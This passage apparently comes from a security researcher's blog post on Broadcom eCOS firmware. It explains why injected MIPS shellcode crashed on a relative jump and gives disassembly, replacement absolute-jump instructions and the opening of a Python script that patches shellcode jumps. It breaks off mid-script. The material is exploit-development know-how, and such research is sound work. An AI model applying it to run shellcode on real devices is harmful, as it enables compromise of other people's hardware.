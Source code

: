 ╎    0x000000e4      02c02021       move a0, s6
└──< 0x000000e8      0800002a       j 0xa8
     0x000000ec      02602021       move a0, s3
     0x000000f0      ffffffff       invalid
     0x000000f4      ffffffff       invalid
     0x000000f8      ffffffff       invalid
{% endhighlight %}

The problematic instruction is at 0x000000e8, which is the jump responsible for our while(1) loop:

{% highlight asm %}
└──< 0x000000e8      0800002a       j 0xa8
{% endhighlight %}

Given that the processor has no knowledge of the fact that our 'function' starts at offset 0x864df1e8 it will think it needs to jump to 0x80004000 (base address) + 0xa8 = 0x800040a8. And that's why the device crash with a PC address of 0x800000a8.

To fix this problem, we need to make this shellcode location aware and make it perform direct jumps rather than relative jumps.

To do so, we need to get the jump destination address. This is the shellcode start address + the relative offset where the loop starts (0x864df1e8 + 0xa8 = 0x864df290).

So we should have something along these lines

{% highlight asm %}
3c03864d    lui v1, 0x864d
3463f290    ori v1, v1, 0xf290
00600008    jr v1
{% endhighlight %}

I wrote the script below to fix this issue. For now only the fixed address can be provided but I plan
on adding support to replace arbitrary relative jumps in any shellcode for Broadcom eCOS.

{% highlight python %}
#!/usr/bin/env python3
'''
This code fix relative jumps in shellcode generated for Broadcom eCOS.

Author: Quentin Kaiser <quentin@ecos.wtf>
'''
import sys
import struct

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print("Usage: {} shellcode_file jmp_addr".format(sys.argv[0]))
        sys.exit(-1)

    # j 0xa8
    old_instructions = b"\x08\x00\x00\x2a"

    target = int(sys.argv[2], 16)
    target_upper = target >> 16
    target_lower = target - (target_upper * 0x10000)

    # lui v1, target_upper
    new_instructions = b"\x3c\x03" + struct.pack(">H", target_upper)
    # ori v1, v1, target_lower
    new_instructions += b"\x34\x63" + struct.pack(">H", target_lower)
    # jr v1